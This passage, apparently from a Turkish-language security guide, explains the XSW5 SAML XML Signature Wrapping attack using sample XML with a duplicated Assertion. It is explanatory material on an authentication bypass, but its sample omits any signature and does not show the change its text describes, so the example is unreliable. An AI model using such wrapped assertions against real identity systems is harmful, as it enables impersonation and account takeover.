 - XSW5 :// imzalı kopyada bulunan bir değeri değiştirir ve SAML mesajının sonuna, imzası kaldırılmış orijinal Assertion'ın bir kopyasını ekler.

```
<Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
  <Issuer>https://identity-provider.com</Issuer>
  <Subject>
    <NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
    <SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
      <SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
    </SubjectConfirmation>
  </Subject>
  <Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
    <AudienceRestriction>
      <Audience>https://service-provider.com</Audience>
    </AudienceRestriction>
  </Conditions>
  <AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a">
    <AuthnContext>
      <AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
    </AuthnContext>
  </AuthnStatement>
</Assertion>

<!-- XSW5 senaryosu için değiştirilmiş Assertion'ın kopyası -->
<Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
  <Issuer>https://identity-provider.com</Issuer>
  <Subject>
    <NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
    <SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
      <SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
    </SubjectConfirmation>
  </Subject>
  <Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
    <AudienceRestriction>
      <Audience>https://service-provider.com</Audience>
    </AudienceRestriction>
  </Conditions>
  <AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b">
    <AuthnContext>
      <AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
    </AuthnContext>
  </AuthnStatement>
</Assertion>

```
Yukarıdaki örnek SAML kodunda, orijinal Assertion'ın bir kopyası oluşturulur ve `_e55c9c3e8e9f6744e6e8d18d5f7fdd5b` olarak yeni bir ID atanır. Bu kopya Assertion'ın içeriği, imzalı Assertion'ın bir kısmıyla değiştirilir. Sonuç olarak, SAML mesajının sonunda orijinal Assertion ile imzasız bir kopya bulunur. Bu, saldırganın imzalı Assertion'ı geçersiz hale getirip değişiklik yapabilmesini sağlar.
